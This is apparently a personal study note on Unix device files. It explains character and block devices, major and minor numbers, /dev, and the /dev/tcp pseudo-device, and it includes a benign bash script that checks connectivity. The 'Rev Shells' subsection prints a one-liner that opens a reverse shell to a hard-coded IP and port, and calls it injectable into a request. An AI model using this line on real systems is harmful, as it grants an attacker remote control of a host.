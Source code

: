 
# Unix Device Files
A device file in Unix is a file which is an *interface to a device driver*. It appears in the filesystem the same as other regular files but is special in that it *allows an application to interact with a device*. These files can also be referred to as 'device nodes'. Other [operating systems](computers/concepts/operating-system.md) employ similar interfaces, but this will focus on Unix specifically.
## Unix Device Nodes
In Unix, device nodes/files correspond to resources allocated by the [kernel](computers/concepts/kernel.md). In Unix, the resources are identified using two different numbers a *minor number*, and a *major number*. In general, the major number is meant to identify  the device driver and the minor number is meant to identify the device the driver controls.

The computer treats these nodes like standard system files and *interacts with them using system calls*. There are two different types of device files: Character devices, and Block devices. Unfortunately, the names for both are misleading due to some historical reason.
### Character Device Files
To avoid confusion, these devices are also called *'Raw Devices'*. They provide *direct access* to the hardware device. Contrary to the name, character devices *do not necessarily allow programs to read or write to these devices one character at a time*. Instead, it is dependent on the device to decide how it can be read or written to.

In general, character devices are supposed to be devices which *access data in character units.* Some examples of character devices include keyboards, modems, sound cards, etc..
### Block Device Files
Block devices are different from character ones because they allow *reading and writing a block of any size to the device*. This means that a single character can be read or written to a block device. In general, block devices read and write data in *chunks or blocks*. Some examples include CDROM drives, flash drives, and hard drives.

Because block devices *are buffered* a programmer doesn't know how long it will take for the data being written to pass from the kernel's buffer to the actual device. They also can't be sure in what order two separate writes will reach the device.
## `/dev`
The `/dev` directory contains entries for *physical devices* which may or may not represent actual hardware present on the system (device files). Among the devices represented here, you can find the loopback directory (for [loopback](../../networking/routing/loopback.md) devices) `/dev/loop0`, CD drives (`/dev/hdc`), hard drive partitions (`/dev/sda1`), [UDP](../../networking/protocols/UDP.md) ports `/dev/udp`,  TCP ports `/dev/tcp`, etc. as well as specialized pseudo-devices like `/dev/null`, `/dev/zero`, and `/dev/urandom`.  

Some devices mounted here are *virtual* like `/dev/null`,  `/dev/zero`,  and `/dev/urandom`. This means they're not actual physical devices and *only exist in software*. 
### `/dev/tcp`
`/dev/tcp/[host]/[port]` is a *psuedo device file* and writing to it will *open a [TCP](../../networking/protocols/TCP.md) connection* to the referenced host and port number. The `/[host]` and `/[port]` "directories" correspond to the *destination*, not the address and port number of the local machine making the connection.
#### Rev Shells
An example of how `/dev/tcp` can be used in scripts is this one-liner [bash](../../coding/languages/bash.md) script which can be injected into a request to open a [rev-shell](../../cybersecurity/TTPs/exploitation/rev-shell.md):
```bash
 bash -i >& /dev/tcp/192.168.119.3/4444 0>&1
```
#### Troubleshooting
Here is another example script for using `/dev/tcp` to troubleshoot an internet connection by sending an HTTP request through port 80 to the destination host.
```bash 
#!/bin/bash
# dev-tcp.sh: /dev/tcp redirection to check Internet connection.

# Script by Troy Engel.
# Used with permission.
 
TCP_HOST=news-15.net       # A known spam-friendly ISP.
TCP_PORT=80                # Port 80 is http.
  
# Try to connect. (Somewhat similar to a 'ping' . . .) 
echo "HEAD / HTTP/1.0" >/dev/tcp/${TCP_HOST}/${TCP_PORT}
MYEXIT=$?

: <<EXPLANATION
If bash was compiled with --enable-net-redirections, it has the capability of
using a special character device for both TCP and UDP redirections. These
redirections are used identically as STDIN/STDOUT/STDERR. The device entries
are 30,36 for /dev/tcp:

  mknod /dev/tcp c 30 36

>From the bash reference:
/dev/tcp/host/port
    If host is a valid hostname or Internet address, and port is an integer
port number or service name, Bash attempts to open a TCP connection to the
corresponding socket.
EXPLANATION

   
if [ "X$MYEXIT" = "X0" ]; then
  echo "Connection successful. Exit code: $MYEXIT"
else
  echo "Connection unsuccessful. Exit code: $MYEXIT"
fi

exit $MYEXIT
```
> [Advanced Bash Scripting Guide: 29.1. /dev](https://tldp.org/LDP/abs/html/devref1.html)

> [!Resources]
> - [Wikipedia: Device File](https://en.wikipedia.org/wiki/Device_file)
> - [Advanced Bash Scripting Guide: 29.1. /dev](https://tldp.org/LDP/abs/html/devref1.html)